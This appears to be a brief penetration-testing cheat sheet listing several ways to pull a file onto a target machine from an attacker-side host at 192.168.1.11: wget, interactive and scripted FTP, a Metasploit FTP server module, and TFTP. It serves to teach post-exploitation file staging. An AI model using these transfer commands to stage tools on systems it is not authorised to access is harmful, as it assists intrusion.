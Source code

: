 Ways Thorugh Protocols:

    HTTP
    wget
    ftp
    tftp
    Powershell
    Metasploit

way 1:

    wget http://192.168.1.11/index.js

way 2:

    In Linux:
    To Start Ftp Server

    apt-get install python-pyftpdlib
    python -m pyftpdlib -p 21
                or
    pip3 install pyftpdlib
    python3 -m pyftpdlib -p 21

    In Windows:

    """"""""""" part---1 """"""""""""

    To recive Files From Ftp server

    ftp 192.168.1.11

    user: anonymous
    pass: anything / pass

    get index.js

    bye

    """""""""" part---2 """""""""""""

    echo open 192.168.1.11 > ftp.txt
    echo anonymous >> ftp.txt
    echo pass >> ftp.txt
    echo get index.js >> ftp.txt
    echo bye >> ftp.txt

    ftp -s:ftp.txt

way 3:

    In Metasploit-framwork:

    msfconsole

    use auxilary/server/ftp

    show options

    To run module
        use / exploit

way 4:

    In Linux:

    TFTP

    atftpd --daemon --port 69 /var/www/html


way 5:

    In Windows Xp OR 2003 And Will Not Work On Other Win OS:

    tftp -i 192.168.1.11 get index.js



